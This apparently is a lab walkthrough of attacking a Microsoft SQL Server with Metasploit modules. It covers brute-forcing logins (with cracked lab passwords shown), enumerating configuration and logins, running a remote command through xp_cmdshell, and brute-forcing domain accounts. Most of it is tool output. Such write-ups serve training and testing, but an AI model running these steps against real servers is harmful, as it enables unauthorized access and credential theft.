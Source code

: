 # MSSQL Metasploit

1. Discover valid users and their passwords

In order to brute force valid users and passwords, we can use the auxiliary modules `scanner/mssql/mssql_login`. Remember to set pass_file and user_file.

result:

[+] 10.3.25.195:1433      - 10.3.25.195:1433 - Login Successful: WORKSTATION\sa:
[+] 10.3.25.195:1433      - 10.3.25.195:1433 - Login Successful: WORKSTATION\dbadmin:anamaria
[+] 10.3.25.195:1433      - 10.3.25.195:1433 - Login Successful: WORKSTATION\auditor:nikita

2. Enumerate MSSQL configuration

We can enumerate much information from mssql running the auxiliary module `admin/mssql/mssql_enum`. When we run this module we get the following:

[*] 10.3.25.195:1433 - Configuration Parameters:
[*] 10.3.25.195:1433 - 	C2 Audit Mode is Not Enabled
[*] 10.3.25.195:1433 - 	xp_cmdshell is Enabled
[*] 10.3.25.195:1433 - 	remote access is Enabled
[*] 10.3.25.195:1433 - 	allow updates is Not Enabled
[*] 10.3.25.195:1433 - 	Database Mail XPs is Not Enabled
[*] 10.3.25.195:1433 - 	Ole Automation Procedures are Not Enabled
[*] 10.3.25.195:1433 - Databases on the server:
[*] 10.3.25.195:1433 - 	Database name:master
[*] 10.3.25.195:1433 - 	Database Files for master:
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\master.mdf
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\mastlog.ldf
[*] 10.3.25.195:1433 - 	Database name:tempdb
[*] 10.3.25.195:1433 - 	Database Files for tempdb:
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\tempdb.mdf
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\templog.ldf
[*] 10.3.25.195:1433 - 	Database name:model
[*] 10.3.25.195:1433 - 	Database Files for model:
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\model.mdf
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\modellog.ldf
[*] 10.3.25.195:1433 - 	Database name:msdb
[*] 10.3.25.195:1433 - 	Database Files for msdb:
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\MSDBData.mdf
[*] 10.3.25.195:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\MSDBLog.ldf
[*] 10.3.25.195:1433 - System Logins on this Server:
[*] 10.3.25.195:1433 - 	sa
[*] 10.3.25.195:1433 - 	##MS_SQLResourceSigningCertificate##
[*] 10.3.25.195:1433 - 	##MS_SQLReplicationSigningCertificate##
[*] 10.3.25.195:1433 - 	##MS_SQLAuthenticatorCertificate##
[*] 10.3.25.195:1433 - 	##MS_PolicySigningCertificate##
[*] 10.3.25.195:1433 - 	##MS_SmoExtendedSigningCertificate##
[*] 10.3.25.195:1433 - 	##MS_PolicyEventProcessingLogin##
[*] 10.3.25.195:1433 - 	##MS_PolicyTsqlExecutionLogin##
[*] 10.3.25.195:1433 - 	##MS_AgentSigningCertificate##
[*] 10.3.25.195:1433 - 	EC2AMAZ-5861GL6\Administrator
[*] 10.3.25.195:1433 - 	NT SERVICE\SQLWriter
[*] 10.3.25.195:1433 - 	NT SERVICE\Winmgmt
[*] 10.3.25.195:1433 - 	NT Service\MSSQL$SQLEXPRESS
[*] 10.3.25.195:1433 - 	BUILTIN\Users
[*] 10.3.25.195:1433 - 	NT AUTHORITY\SYSTEM
[*] 10.3.25.195:1433 - 	NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.3.25.195:1433 - 	dbadmin
[*] 10.3.25.195:1433 - 	auditor
[*] 10.3.25.195:1433 - 	admin
[*] 10.3.25.195:1433 - Disabled Accounts:
[*] 10.3.25.195:1433 - 	##MS_PolicyEventProcessingLogin##
[*] 10.3.25.195:1433 - 	##MS_PolicyTsqlExecutionLogin##
[*] 10.3.25.195:1433 - No Accounts Policy is set for:
[*] 10.3.25.195:1433 - 	sa
[*] 10.3.25.195:1433 - 	dbadmin
[*] 10.3.25.195:1433 - 	auditor
[*] 10.3.25.195:1433 - 	admin
[*] 10.3.25.195:1433 - Password Expiration is not checked for:
[*] 10.3.25.195:1433 - 	sa
[*] 10.3.25.195:1433 - 	##MS_PolicyEventProcessingLogin##
[*] 10.3.25.195:1433 - 	##MS_PolicyTsqlExecutionLogin##
[*] 10.3.25.195:1433 - 	dbadmin
[*] 10.3.25.195:1433 - 	auditor
[*] 10.3.25.195:1433 - 	admin
[*] 10.3.25.195:1433 - System Admin Logins on this Server:
[*] 10.3.25.195:1433 - 	sa
[*] 10.3.25.195:1433 - 	EC2AMAZ-5861GL6\Administrator
[*] 10.3.25.195:1433 - 	NT SERVICE\SQLWriter
[*] 10.3.25.195:1433 - 	NT SERVICE\Winmgmt
[*] 10.3.25.195:1433 - 	NT Service\MSSQL$SQLEXPRESS
[*] 10.3.25.195:1433 - Windows Logins on this Server:
[*] 10.3.25.195:1433 - 	EC2AMAZ-5861GL6\Administrator
[*] 10.3.25.195:1433 - 	NT SERVICE\SQLWriter
[*] 10.3.25.195:1433 - 	NT SERVICE\Winmgmt
[*] 10.3.25.195:1433 - 	NT Service\MSSQL$SQLEXPRESS
[*] 10.3.25.195:1433 - 	NT AUTHORITY\SYSTEM
[*] 10.3.25.195:1433 - 	NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.3.25.195:1433 - Windows Groups that can logins on this Server:
[*] 10.3.25.195:1433 - 	BUILTIN\Users
[*] 10.3.25.195:1433 - Accounts with Username and Password being the same:
[*] 10.3.25.195:1433 - 	No Account with its password being the same as its username was found.
[*] 10.3.25.195:1433 - Accounts with empty password:
[*] 10.3.25.195:1433 - 	sa
[*] 10.3.25.195:1433 - Stored Procedures with Public Execute Permission found:
[*] 10.3.25.195:1433 - 	sp_replsetsyncstatus
[*] 10.3.25.195:1433 - 	sp_replcounters
[*] 10.3.25.195:1433 - 	sp_replsendtoqueue
[*] 10.3.25.195:1433 - 	sp_resyncexecutesql
[*] 10.3.25.195:1433 - 	sp_prepexecrpc
[*] 10.3.25.195:1433 - 	sp_repltrans
[*] 10.3.25.195:1433 - 	sp_xml_preparedocument
[*] 10.3.25.195:1433 - 	xp_qv
[*] 10.3.25.195:1433 - 	xp_getnetname
[*] 10.3.25.195:1433 - 	sp_releaseschemalock
[*] 10.3.25.195:1433 - 	sp_refreshview
[*] 10.3.25.195:1433 - 	sp_replcmds
[*] 10.3.25.195:1433 - 	sp_unprepare
[*] 10.3.25.195:1433 - 	sp_resyncprepare
[*] 10.3.25.195:1433 - 	sp_createorphan
[*] 10.3.25.195:1433 - 	xp_dirtree
[*] 10.3.25.195:1433 - 	sp_replwritetovarbin
[*] 10.3.25.195:1433 - 	sp_replsetoriginator
[*] 10.3.25.195:1433 - 	sp_xml_removedocument
[*] 10.3.25.195:1433 - 	sp_repldone
[*] 10.3.25.195:1433 - 	sp_reset_connection
[*] 10.3.25.195:1433 - 	xp_fileexist
[*] 10.3.25.195:1433 - 	xp_fixeddrives
[*] 10.3.25.195:1433 - 	sp_getschemalock
[*] 10.3.25.195:1433 - 	sp_prepexec
[*] 10.3.25.195:1433 - 	xp_revokelogin
[*] 10.3.25.195:1433 - 	sp_execute_external_script
[*] 10.3.25.195:1433 - 	sp_resyncuniquetable
[*] 10.3.25.195:1433 - 	sp_replflush
[*] 10.3.25.195:1433 - 	sp_resyncexecute
[*] 10.3.25.195:1433 - 	xp_grantlogin
[*] 10.3.25.195:1433 - 	sp_droporphans
[*] 10.3.25.195:1433 - 	xp_regread
[*] 10.3.25.195:1433 - 	sp_getbindtoken
[*] 10.3.25.195:1433 - 	sp_replincrementlsn
[*] 10.3.25.195:1433 - Instances found on this server:
[*] 10.3.25.195:1433 - 	SQLEXPRESS
[*] 10.3.25.195:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.3.25.195:1433 - 	xp_regread might be disabled in this system

3. Enumerate all MSSQL logins

To enumerate all MSSQL logins we can use the auxiliary module `admin/mssql/mssql_enum_sql_logins`. We get the following result:

[*] 10.3.25.195:1433 - Attempting to connect to the database server at 10.3.25.195:1433 as sa...
[+] 10.3.25.195:1433 - Connected.
[*] 10.3.25.195:1433 - Checking if sa has the sysadmin role...
[+] 10.3.25.195:1433 - sa is a sysadmin.
[*] 10.3.25.195:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.3.25.195:1433 - Enumerating logins...
[+] 10.3.25.195:1433 - 38 initial SQL Server logins were found.
[*] 10.3.25.195:1433 - Verifying the SQL Server logins...
[+] 10.3.25.195:1433 - 16 SQL Server logins were verified:
[*] 10.3.25.195:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.3.25.195:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.3.25.195:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.3.25.195:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.3.25.195:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.3.25.195:1433 -  - BUILTIN\Users
[*] 10.3.25.195:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.3.25.195:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.3.25.195:1433 -  - NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.3.25.195:1433 -  - NT SERVICE\SQLWriter
[*] 10.3.25.195:1433 -  - NT SERVICE\Winmgmt
[*] 10.3.25.195:1433 -  - NT Service\MSSQL$SQLEXPRESS
[*] 10.3.25.195:1433 -  - admin
[*] 10.3.25.195:1433 -  - auditor
[*] 10.3.25.195:1433 -  - dbadmin
[*] 10.3.25.195:1433 -  - sa

4. Execute a command on the target machine

To execute remote cmd scripts, we can use the auxiliary module `admin/mssql/mssql_exec`. Just remember to set the cmd parameter with the script you want to run there.

Running cmd `whoami`, we get the following result: 

output
 ------
 nt service\mssql$sqlexpress

5. Enumerate all available system users

To enumerate all available system users, we can run the auxiliary module `admin/mssql/mssql_enum_domain_accounts`. Running the module we get the following output:

[*] 10.3.25.195:1433 - Attempting to connect to the database server at 10.3.25.195:1433 as sa...
[+] 10.3.25.195:1433 - Connected.
[*] 10.3.25.195:1433 - SQL Server Name: EC2AMAZ-5861GL6
[*] 10.3.25.195:1433 - Domain Name: CONTOSO
[+] 10.3.25.195:1433 - Found the domain sid: 010500000000000515000000cf4b5eb619bca0ed968e21ef
[*] 10.3.25.195:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.3.25.195:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.3.25.195:1433 -  - CONTOSO\Guest
[*] 10.3.25.195:1433 -  - CONTOSO\krbtgt
[*] 10.3.25.195:1433 -  - CONTOSO\DefaultAccount
[*] 10.3.25.195:1433 -  - CONTOSO\Domain Admins
[*] 10.3.25.195:1433 -  - CONTOSO\Domain Users
[*] 10.3.25.195:1433 -  - CONTOSO\Domain Guests
[*] 10.3.25.195:1433 -  - CONTOSO\Domain Computers
[*] 10.3.25.195:1433 -  - CONTOSO\Domain Controllers
[*] 10.3.25.195:1433 -  - CONTOSO\Cert Publishers
[*] 10.3.25.195:1433 -  - CONTOSO\Schema Admins
[*] 10.3.25.195:1433 -  - CONTOSO\Enterprise Admins
[*] 10.3.25.195:1433 -  - CONTOSO\Group Policy Creator Owners
[*] 10.3.25.195:1433 -  - CONTOSO\Read-only Domain Controllers
[*] 10.3.25.195:1433 -  - CONTOSO\Cloneable Domain Controllers
[*] 10.3.25.195:1433 -  - CONTOSO\Protected Users
[*] 10.3.25.195:1433 -  - CONTOSO\Key Admins
[*] 10.3.25.195:1433 -  - CONTOSO\Enterprise Key Admins
[*] 10.3.25.195:1433 -  - CONTOSO\RAS and IAS Servers
[*] 10.3.25.195:1433 -  - CONTOSO\Allowed RODC Password Replication Group
[*] 10.3.25.195:1433 -  - CONTOSO\Denied RODC Password Replication Group
[*] 10.3.25.195:1433 -  - CONTOSO\SQLServer2005SQLBrowserUser$EC2AMAZ-5861GL6
[*] 10.3.25.195:1433 -  - CONTOSO\MSSQL-SERVER$
[*] 10.3.25.195:1433 -  - CONTOSO\DnsAdmins
[*] 10.3.25.195:1433 -  - CONTOSO\DnsUpdateProxy
[*] 10.3.25.195:1433 -  - CONTOSO\alice
[*] 10.3.25.195:1433 -  - CONTOSO\bob
[*] 10.3.25.195:1433 -  - CONTOSO\sysadmin
[+] 10.3.25.195:1433 - 29 user accounts, groups, and computer accounts were found.
[*] 10.3.25.195:1433 - Query results have been saved to: /root/.msf4/loot/20231016002712_default_10.3.25.195_mssql.domain.acc_377228.txt
